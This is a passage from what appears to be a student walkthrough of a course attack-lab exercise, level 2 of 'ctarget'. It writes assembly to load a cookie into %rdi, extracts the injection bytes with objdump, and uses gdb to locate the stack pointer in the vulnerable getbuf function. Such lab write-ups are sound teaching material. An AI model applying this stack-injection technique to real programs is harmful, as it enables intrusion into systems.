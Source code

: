 Since the register `%rdi` stores the first argument, we need to write some assembly code to move our cookie address.

```
movq $0x2a39efbd, %rdi
retq
```

This should be saved in a file called `ctarget.l2.s`. This can then be compiled and disassembed to get the memory address of our cookie.


```
gcc -c ctarget.l2.s
objdump -d ctarget.l2.o > ctarget.l2.d
```

Now if we open `ctarget.12.d` we find:

```

ctarget.l2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 bd ef 39 2a 	mov    $0x2a39efbd,%rdi
   7:	c3                   	ret    
```

We want the byte representation of the code which is `48 c7 c7 bd ef 39 2a c3`.

Now we need to find the value of the `%rsp` register.

Run `gdb ctarget`.

Set a breakpoint at getbuf `b getbuf`

Run `ctarget` using `r`

Now disassemble `disas`.

```
Dump of assembler code for function getbuf:
=> 0x000000000040256b <+0>:     sub    $0x28,%rsp
   0x000000000040256f <+4>:     mov    %rsp,%rdi
   0x0000000000402572 <+7>:     call   0x40280c <Gets>
   0x0000000000402577 <+12>:    mov    $0x1,%eax
   0x000000000040257c <+17>:    add    $0x28,%rsp
   0x0000000000402580 <+21>:    ret    
End of assembler dump.
```

We want the instruction right before `add    $0x28,%rsp`, so let's set a breakpoint and run until just before that instruction.

`until *0x0000000000402577`

